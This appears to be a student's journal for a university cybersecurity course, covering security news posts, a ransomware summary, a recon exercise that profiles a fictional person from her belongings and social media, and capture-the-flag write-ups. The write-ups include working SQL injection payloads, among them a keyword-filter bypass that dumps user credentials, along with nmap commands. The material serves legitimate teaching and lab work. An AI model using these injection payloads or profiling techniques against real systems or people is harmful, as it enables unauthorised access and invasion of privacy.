




# Week 1: The Foundations of Cybersecurity

# Community

## Wisdom

Start your degree sharing a quote you love

```
Share a great quote that you really like. 
Post it as a comment on the course homepage.
Try to post one that hasn't already been posted by someone else.
Use "like" and comment to respond to a few of the great quotes your classmates shared as well. A quote can be a gift that helps you remember what's important when things seem tough.
You might want to write a brief post in your log about why you picked your quote and what it means to you.
```

- "The key is not to prioritise what's on your schedule, but to schedule your priorities" - Stephen Covey
- Discussing having a reactive vs proactive mindset in today's security lecture reminded me of this quote from Stephen Covey, which emphasises the importance of taking control of a situation (being proactive) rather than letting the situation control you (reactive approach). Although I am generally more of a reserved and reactive individual, I tend to be more proactive in the work I do, realising that many problems can be mitigated through proactive and creative thinking earlier on. Furthermore, this quote symbolises how I am able to manage my time so effectively, whilst balancing so many commitments at the same time.

## Security Everywhere

Over the week share a news story or a photo of something you notice which demonstrates one of this week's concepts.

```
Make a blog entry about what you have noticed. It can be as brief as you want but it needs to include an image. A photo and a few words describing it is fine.
Post a summary comment linking to the blog post on the course homepage. The summary comment should include the image, the link to your blog post, and a few words about it (so people can decide if they want to read further).
Comment on any you are impressed by or which make you think.
We'll do this again each week.
```

**Discord = Secure?**
The platform we all love to use.. is it secure? Do you know how hackers are using Discord to carry out malicious tasks?
Find out more: https://www.openlearning.com/u/axie/blog/DiscordSecure/

### Discord = secure?

Browsing YouTube after my first COMP6841 lecture on Monday, the video [How Hackers Use Discord to Control Victim PC's](https://youtu.be/_OXyb_Oxmjg) by Seytonic caught my attention, which describes how hackers use Discord's content delivery network (CDN) to host files used on the platform. During our Tuesday lecture, we discussed that there are tradeoffs to basically every invention, which is reflected in Discord's CDN. Although such a system brings convenience to users, allowing for ease of file sharing and access, using the `https://cdn.discordapp.com/attachments/...` domain name could also mean that some people will automatically associate the attachment as being secure since it is hosted by Discord, a communication platform with over 100 million monthly active users worldwide in 2020 (Business Insider, TechSpot). With this false sense of security, some hackers use the CDN to distribute malware and viruses. Although Discord is aware of this issue and claim they "remove the content immediately" once they are aware of these issues, such a reactive approach is not very effective against the large stream of content shared constantly. As discussed on Monday, in security, a proactive approach is generally better than relying on a reactive approach. 


Furthermore, some hackers exploit systems compromised by remote access trojans (RAT) by using Discord to hide their traffic, "making it really difficult, or nearly impossible, to filter malicious traffic" (Moldovan), as can be seen in the image above. I guess the main takeaway regarding Discord's security is that users should not be fooled by the false sense of security associated with the Discord brand, but be aware of the differences between content delivered by official Discord websites and by its CDN. Although Discord is trusted by many, there are also users who use the platform to execute malicious tasks on unsuspecting victims. 

<u>Source:</u> 
Curry (https://www.businessofapps.com/data/discord-statistics/)
Moldovan (https://threatlounge.eu/abaddon-using-discord-as-a-c2/)
Seytonic (https://youtu.be/_OXyb_Oxmjg)

# Foundations

## Thinking like an attacker

Learn about and look for examples of the attacker mindset

```
In this activity you will be figuring out the best way to stop a burglar from finding your valuables if they are already inside your house. Where is the best safest place to hide your jewels? (https://momento360.com/e/u/2e37b96d54bb4910b272143aaffc545f)
Enter full screen mode, and pan around the room in order to choose a location you think could be best suited to stashing your valuables. We encourage you to think outside of the box, and use those security eyes in order to defend against attackers.
Post your chosen hiding spot in your blog, and describe how you might obscure, protect or otherwise make it harder for a burglar to find or capture your valuables.
Post a summary comment linking to your blog post and setting out your main idea below. Include a small 200x200 picture showing where in the room you would hide it. (To do this take a screen shot of the area, crop and resize it to be 200x200 and draw a red circle around the spot).
Vote on where you think the most common place people would hide their valuables in this room.
```

Directly facing the doorway and being near the most common place to hide valuables is a double-edge sword. However, with these modifications, this area becomes the ideal location for hiding your jewels 💎.
What modifications you ask?
Find out more: https://www.openlearning.com/u/axie/blog/BestPlaceToHideYourJewels/

### Best place to hide your jewels



The best location for stashing your valuables (such as jewels) would be behind the left side of the curtain rail cover. Here are my reasons why:

1. Not in plain sight (although it directly faces the doorway, it is concealed by the curtain rail cover)
2. Uncommon hiding spot (like who does this??)
3. Although a burglar is most likely to check the nearby drawers first, they are also likely to quickly clear this area upon failing to find the valuables, and not return to double check this seemingly 'obvious' area later on. The drawers are also located lower down, so it is unlikely that they would look up at the curtains anyways. 

However, since this area directly faces the door, it can be immediately noticed if not concealed properly. Adding an additional cover to the bottom of the curtain rail cover would be very important. Not only does this provide a surface for the valuables to rest on, but it can also be disguised as an intentional part of the curtain rail design, and thus not be checked. Such a modification prevents the jewels from falling out or detected if the burglar looks up at the curtains. With this modification, this area is the ideal place for hiding the jewels, standing out from the two other main areas I considered:

1. In the air vents near the middle of the curtains above the bed: this area is difficult to access, which is great for hiding valuables from burglars, but also annoying if you want to access it regularly (since the air vents aren't detachable, unless modified).
2. The right side of the curtain rail: although this area is more ideal as it is closer to the window facing the street, which would reveal/create suspicion for the burglar who would most likely try to avoid this area, it is also near the wardrobe with containers above it. During the process of inspecting these high items, the burglar would be more likely to look upwards and unintentionally notice the valuables behind the curtain rail (without modifications). However, even with the modification suggested for the left side, the natural light from the window would directly illuminate this area, as it is not as covered by the curtains compared to the left side. 

## Cyber security through the ages

Research and explain a famous moment in cyber security history

```
List of Memorable Moments
Below are a number of key events in hacking history since 1900.  Pick one of these that interests you. Alternatively if you are feeling curious you can read around and find another interesting event which is not on the list and pick that.

1900: Hacking the Telegraph
  The invention of the wireless telegraph
  Nevil Maskelyne (magician and inventor)
 
1900-1945: Military Code-breaking
  The Enigma Machine
  The Zimmerman Telegraph
 
1957-1980: Phone phreaking and bulletin boards
  Blue Boxes
  Captain Crunch
  Phrack (Aleph One)

1980-2000: Hacking hits the mainstream
  Kevin Mitnick
  The Morris Worm
  Maroochydore Sewerage
  Clipper Chip
  PGP

2000-2010: The technological boom
  Denial of Service
  Samy is my hero
  The Stuxnet Worm
  Refahiye Pipeline
  Siberian Pipeline

The Rise of Vigilantism
  Anonymous
  Hacktivism
  Collateral Murder

Sony
  Rootkit
  Playstation
  Sony Pictures
  Sony CISO Jason Spaltro - infamous interview about "good-enough" security

2010-now: Hacking in the modern era
  Ukraine power attacks
  Wikileaks
  Yahoo
  LinkedIn
  OPM breach
  Eternal Blue
  Wannacry
  Heartbleed
  NotPetya

Influence operations
  Cambridge Analytica
  Brexit
  US 2016 election foreign influence
  French 2017 election foreign influence
  US 2020 election foreign influence

Modern cyber crime
  Identity theft
  Big DDOS
  Ransomware

Groups
  Fancy Bear
  Shadow Brokers
  Unit 8200
  Equation Group
  Lazarus Group 

Create a Blog Post which is your one page contribution to the imaginary book. You post should have a clear heading which is the name of the item you have picked and give a clear summary of the item in at most one page (300 word max). Include one or more pictures and/or diagrams in your blog post to help convey the key information clearly.
Post a Summary Comment in the comments section below, which links to your blog post. Remember summary comments are short, contain enough key information that a reader can know what they are linking to, and if it might interest them, and must contain a helpful image. Start your summary comment with the title of the item you have picked eg "The Morris Worm".
```

**Ransomware - the ticking time bomb.**
Learn about how problematic ransomware attacks can be - how they exploit vulnerabilities and the best preventative measures against them.
https://www.openlearning.com/u/axie/blog/Ransomware/

### Ransomware - the ticking time bomb

Ransomware is a type of malware which encrypts files on a victim's computer, demanding a ransom be paid in order to get the decryption key and restore access to these files and data, usually paid to cybercriminals through cryptocurrencies such as Bitcoin. There is usually a deadline present for payment, threatening increasing ransoms or permanent inaccessibility to data if the ransom is not paid on time. However, even paying the ransom does not guarantee data recovery (Groot, 2020). 


Such an attack is especially damaging to major corporations and markets such as healthcare organisations, who require immediate access to their crucial data. These sectors can be targeted with demands for larger ransoms, and victims may simply pay the ransom because they desperately need access to their data.  However, this does not mean regular users are safe from ransomware. Although the prevalence of ransomware has been decreasing from its peak in 2015 due to the decreasing effectiveness of ransom demands and increasing security measures, analysts predict that loss values are likely to exceed $20 billion by 2021 (Cook, 2021). 

Although there have been several ransomware attacks since 1989, one of the biggest ransomware attacks (as of 2021) has been attributed to WannaCry (2017), claimed to have targeted around 230,000 computers globally, causing an estimated $4 billion in losses (Kaspersky). This attack utilised the EternalBlue exploit in the Microsoft Windows operating system's Server Message Block (SMB) protocol, which was actually patched by Microsoft two months before the attack began (Fruhlinger, 2018), leaving unpatched systems vulnerable to such attacks. This demonstrates the importance of keeping your operating system's security up to date. Although anti-virus or anti-malware software could prevent users from some ransomware attacks, not all ransomware are caught by these software as ransomware is constantly being written and tweaked by its developers, where 75% of companies infected by ransomware were reported to be running up-to-date endpoint protection on their infected machines (Fruhlinger, 2020). Ransomware attacks can also exploit users through social engineering approaches, so it is important to practise common security best practices, and keep regular backups so compromised systems can be restored if infected by ransomware.

<u>Source:</u>
Cook (https://www.comparitech.com/antivirus/ransomware-statistics/)
Fruhlinger 2020 (https://www.csoonline.com/article/3236183/what-is-ransomware-how-it-works-and-how-to-remove-it.html)
Fruhlinger 2018 (https://www.csoonline.com/article/3227906/what-is-wannacry-ransomware-how-does-it-infect-and-who-was-responsible.html)
Groot (https://digitalguardian.com/blog/history-ransomware-attacks-biggest-and-worst-ransomware-attacks-all-time)
Kaspersky (https://www.kaspersky.com.au/resource-center/threats/ransomware-wannacry)

## Bluetooth traces

Have fun tracking down all the bluetooth devices in your house (including any sneaky ones you didn't know about...).

```
Most modern phones and devices use bluetooth (low power radio signals) and often transmit signals all the time or at least send out regular "ping"s. Anyone listening can learn about your device (and maybe even interact with it :), but for now let's just think about how your device is leaking information via radio).

You can use your phone to "hear" / receive bluetooth signals as well as sending them.  So let's turn your phone into a scanner and walk around your house seeing what you can find.  By turning known devices off and on you can start to work out which signal comes from which device, and by noticing signal strength you can work out how close you are to it.  Like the old "warmer" "colder" guessing game you may have played as a child.  Indeed you could use this to find lost devices at home.  There is some conjecture that petty criminals use blue tooth scanners to identify which parked cars have laptops or phones in them ("hidden" under something perhaps...)

Download a bluetooth scanning app for your phone.  There are plenty of free ones.  Note you are not interested in car scanners which use blue tooth to find out all the data about your car operation (well actually you probably ARE interested in those - but not for this activity).  On my iPad I randomly used the free BLE Scanner app by Pally which is simple and does everything I need.  Post below in comments any better ones you discover, or good ones for other types of phones.

Experiment and see what you can find.  Document anything interesting in your blog.  Be aware that you can probably pick up signals from your neighbours (remember the good faith code, listen don't touch, and don't listen to anything private) and your car and who knows what else in shopping centres, traffic lights ...).

Can you learn anything about the covid safe app?  About how much metal foil you need to wrap around your phone to muffle the signal? How close would they have to get before you could pick up a prowler outside who has forgotten to turn off bluetooth on their phone?, so many interesting things you can investigate be creative...

Can't wait to see what you find.
Have fun!
```

Tracking down my family's Apple addiction.
https://www.openlearning.com/u/axie/blog/BluetoothTraces/

### Bluetooth Traces

Using the nRF Connect app on my iPhone, I was able to walk around and visually identify my family's devices (yep we're *kinda* locked into the Apple ecosystem), where Bluetooth signal strength increased as I approached each device. Through the process of eliminating confirmed devices, I was able to identify all the devices, as demonstrated in the image below. 



## Physical security

Start to question physical security through a practical activity


## Dumpster diving

Look through some virtual trash - and see if you can find any treasure

```
As you are viewing the items, try to come up with a mental understanding of the person who left the backpack in the car. To help your analysis, we have listed some questions to guide your searching. However, these questions are just the beginning. There are potentially hundreds of insights just below the surface...
  What is their name?
  In what suburb do they likely reside?
  Which suburbs do they frequent?
  What type of computer/devices do they own?
  Where have they been, and at what time?
  To get even better, DIY!

Challenge exercise
You don’t have to stop here (but you can if you’ve had enough recon for this week)! To get even more experience with recon, replicate this exercise on a consenting friend/family member. See how much information you can gather from going through their handbag, car, suitcase or anything else that reveals information about them. Share your findings, it can be a wake-up call when you realise how much you reveal about yourself. This would be something really great to blog about, analyse and reflect on.

You could even set up your own dumpster dive activity (with sensitive information redacted) and ask your classmates to carry out some recon on you.
```

Even a name can reveal so much about you. Find out more: https://www.openlearning.com/u/axie/blog/DumpsterDiving/

Here are my findings from the backpack items and a bit of online presence searching:

- Kristin Smith - adult woman
  - Name from UMART invoice and Climbfit visitor card
  - Gender implied from name and products purchased (health, beauty, shoes)
  - Light coloured hair and skin (from beauty products)
- Resides in the Eastern Suburbs of Sydney (indicated by receipts of frequent grocery shoppings - likely to be close to home)
  - Visited Kingsford, Maroubra, Double Bay, Bondi (Junction)
- Owns a car which uses unleaded petrol (from Caltex receipt)
- Suffering from some health issues
  - Iron deficiency (Swisse bottle) - common for vegetarians or vegans
  - Injuries (Elastoplast, likely from a contact activity such as Climbfit rock climbing/bouldering)
  - Stomach burn or indigestion (Chewy Quick-Eze)
- Likely vegetarian or vegan (meat-free groceries)
- Most likely works at Stryker (American multinational medical technologies corporation) St Leonards - located right next to Climbfit
  - However searching "Kristin Smith Stryker" on Google leads me to a LinkedIn profile of a UNSW security tutor, whose employment at Stryker as a service coordinator ranged from June 2019 to December 2019. With the receipts, it seems she no longer works there.
  - From LinkedIn, graduating high school in 2016 (typical age of around 18) indicates that she is currently around 23 years old
- Birthday card - either an old card given to her, or for her friends - unsure of when it was added to her backpack
  - Facebook indicates that her 21st birthday was on the 22 of February 2020 (so she is actually 22 years old as of time of writing)
- Climbfit visitor card with gripping solution - indicates that she probably recently did rock-climbing or bouldering, or she does it often enough that the equipment is in her backpack (but not a regular - visitor instead of membership) - quite active
  - Age: adult over 18 (not a minor)
- Spoon, toothbrush, toothpaste set could indicate an outgoing individual
- Activities
  - 25 May 2020 - she purchased a monitor from UMart online (invoice printed the next day)
    - Has a Paypal account
    - Questionable $326 for a 23.8 inch IPS monitor but ok..
  - 22 July 2020 - she went to Indigo cafe (most likely with friends due to large order - which she paid for). She then went to Target Bondi Junction to buy Women's Shoes, then groceries from Woolworths right after
    - Assuming her travel time from Indigo to Target was around 10 minutes (morning car travel and parking times), she spent about 1 hour in the cafe (confirmed by a table number) and shopping in Target
    - Impressive that her visit to Woolworths took less than 10 minutes (inference - young adult with the multitude of card purchases and online shopping, as well as quick purchases)
  - 25 July 2020 - went to another cafe in Maroubra early in the morning with another person
  - 27 July 2020 - refueled her car in the early afternoon at Kingsford Caltex
- Could extract quite a lot more info from her online profiles, but don't want to be a stalker so yeah nah..

# Security Engineering

## Estimation

## Quick fire estimation activity

Quick maths not bad
https://www.openlearning.com/u/axie/blog/QuickFireEstimation/

**Claim 1: 57% of the world’s population lives in the Northern Hemisphere**

Plausible - expected to be more than 50% since population and countries in the Northern Hemisphere are more compact (closer together) compared to the Southern Hemisphere (look at Australia)

**Claim 2: Jeff Bezos makes (on average) $321 million per day**

Plausible - he has a net worth of $184.6 billion and many sources of income through Amazon

**Claim 3: Australians buy 250 million tubes of toothpaste per year**

Implausible - 25.36 million Australians. Toothpaste tubes generally last 3 months (4 per year). About 100 million tubes.

**Claim 4: One in four UNSW undergraduate students studies engineering**

Plausible - most common ones are engineering, science and business

**Claim 5: Australia's sheep population is over 50 million**

Plausible - approximately 7 million Australians live in rural areas (29% of the population). This claim would mean there are approximately 7 sheep for every rural Australian, which seems quite plausible, especially with multiple people living together in a farm raising sheep, as well as some without any sheep. 

**Claim 6: On average Americans spend 5475 hours on their phone per annum**

Imlausible - there are 8760 hours in a year. About 62.5% of their year is spent on their phone. This means that on average, 62.5% of the day (15 hours) is spent on their phone as well. This seems rather unlikely.

<u>Actual answers:</u>

Claim 1: The population is more like 87% - which is significantly greater than my estimate.

Claim 2: Although I was initially startled at Jeff Bezo's daily income, I still felt that this was quite likely given his net worth and many sources of income. Even after fact checking this on Google, I was still quite surprised. 

Claims 3 and 4: unsure

Claim 5: Apparently the population is closer to 100 million, which although is over 50 million, is also quite a lot over 50 million..

Claim 6: Apparently Americans spend closer to 5 hours per day, which is quite reasonable

<u>Reflection:</u>

As someone who thinks rather quantitatively, my estimates are usually quite reasonable and accurate. Although for most claims, my instincts and quick estimations seemed to be very similar, I was still quite off for at least one of them. 

## Civil


# Extension

## Cryptography Wargame - Steganography



Having participated in multiple CTFs before, I am quite familiar with Steganography problems. Initially, I used https://stylesuxx.github.io/steganography/ to try and find encoded messages within the image. Failing to find any, I tried searching for the keyword 'COMP' in the raw code for the image as well. Without much luck, I knew it was time to do some colour filter analysis. I used this [StegSolve tool](https://github.com/zardus/ctf-tools/blob/master/stegsolve/install) to process the image in the Java program, and found that the flag was visible in the red plane 1 filter option. I know a similar colour filter analysis can also be done using Photoshop as well.

COMP6841{LSB_is_a_mighty_stegosaurus}

```
Abiram:
Images tend to be several megabytes large (without being suspicious by any means), while an ASCII character takes up a single byte. This provides plenty of space to potentially hide information.

Some common ways to hide information in an image is through:
metadata (such as EXIF data, which exists on JPEG files)
inside raw bytes of the file, which can be found through `strings`
least significant bit steganography, which creates unnoticeable changes in the image by changing the value of a subpixel by 1/256th, and hiding information in the changed bit
hiding information at a slightly different colour/transparency to the background, which can easily be revealed through the levels tool
```

## SQLi Wargame

## Level 1

My friend in COMP3311 has been learning all about databases and has built a basic webapp to store secret messages. He isn't sure his lecturer has been teaching secure coding practices and wants to know if his messages are secure. Can you find a way to read his messages?

```php
session_start();
if (isset($_POST['secret'])) {
    $query = $conn->prepare("INSERT INTO secrets(session_id, secret) VALUES (?, ?)");
    $current_session_id = session_id();
    $query->bind_param('ss', $current_session_id, $_POST['secret']);
    $query->execute();
}

if (isset($_POST['session_id'])) {
    $query = "SELECT * FROM secrets WHERE session_id = '" . $_POST['session_id'] . "'";
    $result = $conn->query($query);
} else {
    $query = "SELECT * FROM secrets WHERE session_id = '" . session_id() . "'";
    $result = $conn->query($query);
}
```

Realising the 'secrets' table stores all the session_ids with secrets, I wanted to select all tuples from the secrets table to find the stored secret.
Injecting a SESSION_ID of `' OR '1' = '1` into `SELECT * FROM secrets WHERE session_id = '$SESSION_ID'` allows me to see the entire secrets table (for every session_id).
Flag: COMP6841{07e1ba64565352cebd2c0814a101ddbf}

## Level 2

I think an administrator blocked my account. Can you help me steal someone else's account?

```php
// $query = "SELECT flag FROM my_secret_table"; We leave commented code in production because we're cool. 
$query = "SELECT username FROM users where username = '" . $_POST['username'] . "' and password = ?";
```

Format: SELECT username FROM users where username = '' and password = ?

my_secret_table flag:

- Since PHP MySQL doesn't natively support stacked (multiple) queries, this means I had to use UNION SELECT
- `SELECT username FROM users where username = '' UNION SELECT flag FROM my_secret_table;-- `
- Injecting `' UNION SELECT flag FROM my_secret_table;-- `
- flag: COMP6841{3a2ebdb83c13ac641f128802ddaf724e}

bonus:

- Initially I used a UNION SELECT to extract this
- `SELECT username FROM users where username = '' OR '1' = '1' UNION SELECT username FROM users WHERE username = '' and password = '';-- `
- Although there is a prepared statement for password, I realised that I could ignore this if I overwrote it in the username field
- SELECT username FROM users where username = '' OR '1' = '1';-- 
- Injecting `' OR '1' = '1';-- `
- flag: COMP6841{a1e8c4268f2f673b5df74c953c16969d}

## Level 3

This new search engine company has hired you to try and hack them. They think they are secure against SQLI attempts... but are they really?

```php
if (isset($_GET['q'])) {
    $filter = array('union', 'select', 'from', 'where');
    // Remove all banned words -> take that script kiddies!
    foreach ($filter as $banned) {
        $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
    } 
}

$query = "SELECT * FROM search_engine WHERE title LIKE '%" . $_GET['q'].  "%' OR description LIKE '%" . $_GET['q'] .  "%' OR link LIKE '%" . $_GET['q'] . "%';";
```

Format: SELECT * FROM search_engine WHERE title LIKE %?% OR description LIKE %?% OR link LIKE %?%;

Vulnerability in filtered words: the strings in the $filter array are filtered to become empty strings in a set order, so sel<u>from</u>ect -> <u>from</u> gets filtered -> select etc.

**Part 1: Finding the tables**

Query: `SELECT * FROM search_engine WHERE title LIKE '%1' UNION SELECT table_type, table_name, table_schema FROM information_schema.tables;--  `

Inject: `1' uniselecton sefromlect table_type,table_name,table_schema frwhereom information_schema.tables;-- `

Two tables are present: search_engine and users

**Part 2: Finding the column names for users table**

Query: `SELECT * FROM search_engine WHERE title LIKE '%1' UNION SELECT data_type, column_name, table_name FROM information_schema.columns;--  `

Inject: `1' uniselecton sefromlect data_type, column_name, table_name frwhereom information_schema.columns;--`, avoiding the WHERE clause as it is filtered last

This reveals that there are two columns: username and password, both of type varchar

**Part 3: Finding the flag**

Query: `SELECT * FROM search_engine WHERE title LIKE '%1' UNION SELECT 1, username, password from users;--  `

Inject: `1' uniselecton sefromlect 1, username, password frwhereom users;-- `

This reveals the username (and flag) and password: COMP6841{67c2bebd572e96e12b775b8a3422dedb}, Administrator


**Level 1**

The SQL queries in the source code suggest that in the secrets table, secrets displayed are filtered by session_ids. So extracting the friend's secrets would be possible when listing all the secrets in the database.

**Level 2**

Upon realising that PHP does not support stacked (multiple) SQL queries by default, I realised I had to use UNION SELECT in my SQL injections.

- my_secret_table flag
  - After my realisation in the bonus section, I simply injected the commented out my_secret_table query, with comments to ignore the rest of the prepared query.
- bonus flag
  - I actually managed to get this flag first, trying to match the query format in the source code which ended with "and password = ?". Although the same injection from Level 1 would suffice, I added a dummy UNION SELECT in order to match this format. 
  - Realising that I could use SQLi for the username to overwrite the prepared statement for password, I replaced the UNION SELECT part of my query with a comment to ignore the rest of the statement, achieving the same effect. 

**Level 3**

This level was significantly more difficult than the previous two, and required thinking outside the box. Examining the source code again after giving up hours before, I quickly realised a vulnerability with the filtering function for the clauses 'union', 'select', 'from' and 'where' in the user input, where the words are filtered in a sequential order. This means I can hide a word within another word in the list, where the word I want (say 'select' written as 'sefromlect') would not be filtered for the regex pattern for 'select'. However, the next word 'from' would be filtered from 'sefromlect', leaving the word I want, 'select' unfiltered. I can use such a trick for the first three words, but not the last 'where', which I will have to avoid in my SQL injections. Realising that I can substitute my SQL clauses to avoid filtering, I can now progress with my injections, split into three main parts:

1. **Finding the tables**
   A UNION SELECT from information_schema.tables, with clauses substituted as mentioned above, allowed me to find that two tables are present: search_engine and users. I wasted a lot of time in this part before realising that my UNION SELECT query had to have a matching number of three columns. 
2. **Finding the column names for the users table**
   Here, I selected data_type, column_name and table_name from the information_schema.columns table. Without being able to use the WHERE clause, I had to manually filter the SQL output for table_name = 'users', finding that there are two columns, both of type varchar: username and password.
3. **Finding the flag**
   The final stretch was definitely the easiest part of this level, as all I needed to do was select all the username and passwords from the users table. Being cautious about having three columns in my UNION SELECT query as well, I was able to find the final flag as the username, with a very 'secure' password :)


* Using the same keyword in itself is also possible, e.g. whewherere - so it is possible to use WHERE

UNION select must have same number and type of columns


# Optional Challenges

## Network recon - port scanning

Most website traffic goes through ports 443 (HTTPS) and 80 (HTTP). However, since these sites are hosted on a server, there can be other ports open as well.

```shell
sudo nmap -Sv -O target_ip_or_domain -p port_start-port_end
sudo nmap -sC -sV -O 100.95.246.152 -p 40-1000
```

- Probes for open ports
- -Sv: attempts to determine the version and type of service running on that port
- -O: attempts to determine what kind of operating system the server is running
- -p: port range to scan (1 to 65535)



**Try Hack Me Recon Challenge: ZZEN9201 - Knock**

This challenge was rather straight forward, using the nmap tool to scan for open ports on a network. Port scanning took longer than I anticipated, taking about 1.6 seconds for 100 ports. From my calculations, scanning all the ports (1-25535) would take more than 6 hours to complete. As such, I split my port scanning into small chunks of 1000 since there was no option to display open ports as they came up. Noticing the open port for the target ip address, I was able to find the flag by navigating to target_ip:port. Also just as a note, the -F flag can be used for quickly scanning the 100 most common ports (unfortunately the flag didn't show up on this). 

## Open Source Intelligence (OSINT)

- Gathering useful data/intel, subsection of passive reconnaissance, e.g. through Google
- [OSINT Framework](https://osintframework.com/)

**WallabyTech OSINT**

LinkedIn Flag

- Hint: A little birdie told me that the WallabyTech HR Department has been getting creative recently designing something new.
- HR Manager's company name badge
- ZZEN9201{a_social_engineers_dream}

Twitter Flag

-  I knew the company's team seemed too small to function! They must be recruiting more staff. Maybe they just haven’t updated the website. I wonder if I can find the new company employee?
